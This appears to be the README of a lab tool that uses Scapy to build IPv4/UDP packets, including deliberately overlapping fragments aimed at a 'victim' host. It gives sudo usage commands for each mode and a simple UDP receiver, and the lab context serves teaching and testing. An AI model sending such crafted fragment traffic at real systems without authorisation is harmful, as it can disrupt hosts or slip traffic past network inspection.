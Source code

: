 # IPV4 Fragment Overlap 


This script builds and emits IPv4/UDP packets and can:

send whole UDP/IP datagrams,

split a UDP datagram into proper (non-overlapping) IPv4 fragments, or

craft overlapping fragments (final-fragment overlap or continuous multiple overlaps).


# Requirements:

Python 3

Scapy (pip3 install scapy)

sudo / root privileges required to send raw packets

UDP server running on victim machine

Optional: Wireshark/tcpdump for inspection

Quick usage
# Send non-fragmented UDP datagrams

sudo ./ip_fragment_overlap_attack.py --dst [Victim IP] --payload "Testing raw UDP/IP Datagram" --count 3

# Send proper fragments (non-overlapping)

sudo ./ip_fragment_overlap_attack.py --dst [Victim IP] --count 1 --payload "$(python3 -c 'print("B"*2000)')" --fragment --fragsize 1000 --id 50000

# Final-fragment overlap (last fragment overlaps previous)

sudo ./ip_fragment_overlap_attack.py --dst [Victim IP] --count 1 --payload "$(python3 -c 'print("A"*3000)')" --finaloverlap --fragsize 640 --id 43601

# Multiple overlapping fragments (each fragment overlaps previous)

sudo ./ip_fragment_overlap_attack.py --dst [Victim IP] --count 1 --payload "$(python3 -c 'print("A"*3000)')" --multipleoverlap --fragsize 640 --id 43601

# Write fragments to a PCAP instead of sending on-wire
sudo ./ip_fragment_overlap_attack.py --dst 192.168.19.174 --multipleoverlap -f --fragsize 32 --count 1 --pcap-out fragments.pcap


# Important flags (high-level)

--dst (required): target IP

--fragment / -f: enable fragmentation (proper fragmentation)

--finaloverlap: make the final fragment start earlier (overlap previous)

--multipleoverlap: generate a sequence of overlapping fragments

--fragsize: fragment payload size in bytes (must be multiple of 8)

--id: specify IP ID (optional)

--pcap-out <file>: write generated packets/fragments to a PCAP (no on-wire sends)

--count: number of datagrams to send

--payload: data string to carry in UDP payload

--help / -h: Show help message

Run a simple UDP receiver on the target VM:

# udp_server.py

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.bind(("0.0.0.0", 9999))    # choose a port you will send to
print("listening UDP on port 9999")
while True:
    data, addr = s.recvfrom(4096)
    print("got", len(data), "bytes from", addr, data)

Capture traffic with tcpdump -w fragments.pcap or open live in Wireshark.

Use --pcap-out to create PCAPs for offline grading.


# Output 

On success you’ll either:

see the UDP server print the received payload (proper fragmentation), or

see no delivery or malformed payload when overlapping mode is selected, and Wireshark will mark "Fragment overlap"/show conflicting bytes.

PCAP files created with --pcap-out are reproducible artifacts for grading.